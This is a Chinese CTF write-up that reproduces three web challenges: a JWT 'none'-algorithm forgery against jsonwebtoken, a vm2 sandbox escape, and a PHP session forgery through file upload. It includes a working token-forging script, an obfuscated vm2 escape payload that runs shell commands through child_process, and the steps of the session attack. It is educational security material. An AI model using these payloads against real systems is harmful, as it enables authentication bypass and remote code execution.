






# 虎符 CTF WEB 部分复现


## 0x00 前言

当时比赛的时候，一共三道 WEB 题，两道 nodejs 的都不会，还有一道 PHP 没来得及看后来看了也不会（还是太菜了

趁题还热乎，借着 dalao 们的 WP 复现一波


## 0x01 easy_login

由于静态文件的配置问题，有一大波源码泄露（比赛时只看到了这个

只有 admin 可以看到 flag，而我们不能注册名为 admin 的用户，只能想办法伪造

题目都说了错的是依赖库，比赛的时候居然没注意到，这里的关键在于用了 jsonwebtoken 库，重点在登录的代码

```javascript
'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }
        
        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
        
        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },
```

重点在 jwt 库存在缺陷

> 当加密时使用的是 none 方法，验证时只要密钥处为 undefined 或者空之类的，即便后面的算法指名为 HS256，验证也还是按照 none 来验证通过

我们只要使这里的 secret 为 undifined 或 null 即可，但 sid 不能为 undefined 或 null

测试发现，当数组索引为浮点数时，得到的结果为 undefined



可以用 python 构造 token

```python
import jwt
print(jwt.encode({"secretid":0.1,"username":"admin","password":"123"},algorithm="none",key="").decode('utf-8'))
```

发送构造的 token 即可以 admin 身份登录，获得 flag


## 0x02 just_escape

看起来后缀是 php 实际上后端是 nodejs

```
code=Error().stack;

Error
    at vm.js:1:1
    at Script.runInContext (vm.js:131:20)
    at VM.run (/app/node_modules/vm2/lib/main.js:219:62)
    at /app/server.js:51:33
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
```

可以看到是用了 vm，GitHub 上有一个逃逸的 [payload](https://github.com/patriksimek/vm2/issues/225)

但是这里过滤了一些关键字

```
for while process exec eval constructor prototype Function + " '
```

根据 cg 的 payload，引号可以用 String.fromCharCode 绕过

这里给一个转成这个函数形式的脚本

```python
s = "return process"
payload = "String.fromCharCode("
for c in s:
    payload += str(ord(c)) + ','
payload = payload.strip(',') + ')'
print(payload)
```

这里被过滤的方法名可以用 JavaScript 的另一种方法调用形式，即将方法名当作数组索引的形式加上 String.fromCharCode 绕过



最终 paylaod 如下

```javascript
(function(){try{Buffer.from(new Proxy({},{getOwnPropertyDescriptor(){throw f=>f[String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)](String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115))();}}));}catch(e){return e(()=>{}).mainModule.require(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115))[String.fromCharCode(101,120,101,99,83,121,110,99)](String.fromCharCode(99,97,116,32,47,102,108,97,103)).toString();}})()
```

成功获得 flag


## 0x03 babyupload

这个是真 PHP

```php
<?php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
if($direction === "upload"){
    try{
        if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
        $file_path = $dir_path."/".$_FILES['up_file']['name'];
        $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        @mkdir($dir_path, 0700, TRUE);
        if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
            $upload_result = "uploaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $upload_result = $e->getMessage();
    }
} elseif ($direction === "download") {
    try{
        $filename = basename(filter_input(INPUT_POST, 'filename'));
        $file_path = $dir_path."/".$filename;
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        if(!file_exists($file_path)) {
            throw new RuntimeException('file not exist');
        }
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($file_path));
        header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
        if(readfile($file_path)){
            $download_result = "downloaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $download_result = $e->getMessage();
    }
    exit;
}
?>
```

重点在这里

```php
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
```

我们需要伪造 session 让自己变成 admin 并且需要创建 success.txt 文件

我们先读取一下 session，名为 sess_PHPSESSID 的文件



其内容如下


这里要知道 PHP session 序列化的形式（session.serialize_handler）

> php 键名 + 竖线 + 经过serialize()函数序列化处理的值
>
> php_binary 键名的长度对应的ASCII字符 + 键名 + 经过serialize()函数序列化处理的值
>
> php_serialize（ php >= 5.5.4 ）经过serialize()函数序列化处理的数组

由于最前边有一个不可见字符，可以判断这里用的是 php_binary

我们发现最后上传的文件名是原文件名 + '_' + 文件名的 SHA256 值，与 session 文件的文件名似乎有点相似

构造一个 php_binary 形式的 session 文件，username 为 admin，注意图中的不可见字符 08（或者用 PHP 直接生成也可以



计算一下该文件的 SHA256 值



上传该 sess 文件



然后将 PHPSESSID 改为上面计算的 SHA256 值即可

下一步就是怎么创建 success.txt，直接上传的话文件名后会包含 SHA256 值，但是根据 file_exists 的函数描述，它是检查文件或目录是否存在，我们不好直接上传文件，但是可以创建目录


刷新页面即可获得 flag


## 0x04 完结撒花

一共三道 WEB 有两道 nodejs 着实没想到，对 nodejs 一点都不熟悉，总结一下，还是太菜了

以后要多看看这一类的题，要不然比赛遇到了无从下手就很难受
